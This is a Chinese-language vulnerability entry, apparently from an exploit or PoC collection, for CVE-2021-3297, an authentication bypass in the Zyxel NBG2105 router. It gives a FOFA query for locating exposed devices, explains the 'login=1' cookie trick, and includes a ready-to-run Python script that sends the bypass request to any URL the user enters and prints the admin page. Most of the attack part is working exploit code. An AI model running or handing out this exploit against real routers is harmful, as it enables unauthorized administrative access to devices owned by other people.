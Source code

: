 # Zyxel NBG2105 身份验证绕过 CVE-2021-3297

## 漏洞描述

Zyxel NBG2105 存在身份验证绕过，攻击者通过更改 login参数可用实现后台登陆

## 漏洞影响

```
Zyxel NBG2105
```

## FOFA

```
app="ZyXEL-NBG2105"
```

## 漏洞复现

登录页面如下

![](./images/202202140930455.png)

其中前端文件 **/js/util_gw.js** 存在前端对 Cookie login参数的校验

![](./images/202202140930281.png)

可以看到检测到 Cookie中的 **login=1** 则跳转 home.html

```plain
function setCookie() //login_ok.htm use
{
	document.cookie="login=1";
	MM_goToURL('parent', 'home.htm');
}
```

请求如下则会以管理员身份跳转到 **home.htm页面**

```plain
http://xxx.xxx.xxx.xxx/login_ok.htm

Cookie: login=1;
```

![](./images/202202140931038.png)

## 漏洞POC

```
# python3
import requests
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning


def poc(url):
    exp = url + "/login_ok.htm"

    header = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "cookie":"login=1",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=exp, headers=header, verify=False,timeout=10)
        #print(response.text)
        if response.status_code == 200 and "GMT" in response.text:
            print(exp + " 存在Zyxel NBG2105 身份验证绕过 CVE-2021-3297漏洞！！！")
            print("数据信息如下：")
            print(response.text)
        else:
            print(exp + " 不存在Zyxel NBG2105 身份验证绕过 CVE-2021-3297漏洞！！！")
    except Exception as e:
        print(exp + "请求失败！！")


def main():
    url = str(input("请输入目标url："))
    poc(url)


if __name__ == "__main__":
    main()
```

## 参考文章

https://github.com/nieldk/vulnerabilities/blob/main/zyxel%20nbg2105/Admin%20bypass

